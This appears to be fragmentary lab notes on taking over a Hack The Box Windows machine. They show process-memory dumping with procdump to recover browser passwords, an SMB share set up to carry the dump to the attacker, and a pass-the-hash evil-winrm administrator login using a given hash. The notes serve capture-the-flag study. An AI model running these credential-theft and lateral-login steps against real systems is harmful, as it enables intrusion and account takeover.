









evil-winrm
Used for Windows Remote Management Exploitation.
https://github.com/Hackplayers/evil-winrm
gem install evil-winrm

For Prevelege Escalation :
To list all processes
Get-Process
To get details of a particular process. Say eg.Firefox Browser
Get-Process -name firefox

We will use the "procdump" utility of microsoft to dump the process data from memory and look for passwords.
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
Note: The “procdump” has to be uploaded to the target server

We need to use the -ma flag to dump the entire memory of the process.
The process ID we found should be used here.

Note: -accepteula is ONLY required the first time the program is run.
We can start an SMB server locally to transfer this file.
smbserver.py -smb2support -username guest -password guest share /root/htb
The server will use the credentials guest / guest for authentication.
Then in target windows machine use the following to mount the samba share & copy the dump into it.

By Seeing the Test Login in BurpSuite:
The page used login_password as the parameter to submit passwords. We can search the dump
for strings like “login_password” to find any requests.
Now we parse the file locally


Then we use psexec to login as administrator.

We can also use evil-winrm for admin logins as follows: (Required in cases where no smb service running. “psexec.py uses smb”)

To use evil-winrm to use password hash
Use the -H option
evil-winrm -i 10.10.11.113 -u administrator -H 0e0363213e37b94221497260b0bcb4fc